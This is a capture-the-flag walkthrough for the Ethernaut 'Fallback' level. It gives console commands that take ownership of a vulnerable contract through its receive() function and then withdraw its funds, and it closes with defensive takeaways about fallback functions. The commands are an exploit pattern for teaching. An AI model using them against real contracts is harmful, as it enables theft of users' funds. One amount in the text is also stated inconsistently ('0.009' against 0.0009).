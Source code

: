 # Level 1: FallBack

**Ethernaut Level 1 : Fallback**

It is best practice to implement a **simple** `Fallback` function if you want your smart contract to ***generally* receive Ether from other contracts and wallets —> Because it initiate the smart contract to act like a wallet**

Bad practice: you should not reassign contract ownership in a fallback function

Anyone can call a fallback function by:

1. Calling a **function that doesn’t exist** inside the contract, or
2. Calling a function **without passing in required data**, or
3. Sending **Ether** **without any data** to the contract

To resolve the challenge we just have to send eth with respecting the conditions  such that its `receive()`function is invoked & makes the `msg.sender` (i.e. `player`), the owner of contract.

1. First satify the first condition : sending less than 0.001 eth —> 0.009 : `contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})`
2. Then Check it : `contract.getContribution().then(v => v.toString())`
3. Send Any non-zero amount of ether to the contract : Send ether to contract : `await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})`
4. Reduce the balance to 0 : `contract.withdraw()`

### Key Security Takeaways

- If you implement a fallback function, **keep it simple**
- Use fallback functions to **emit payment events to the transaction log**
- Use fallback functions to **check simple conditional requirements**
- **Think twice** before using fallback functions to change contract ownership, transfer funds, support low-level function calls, and more.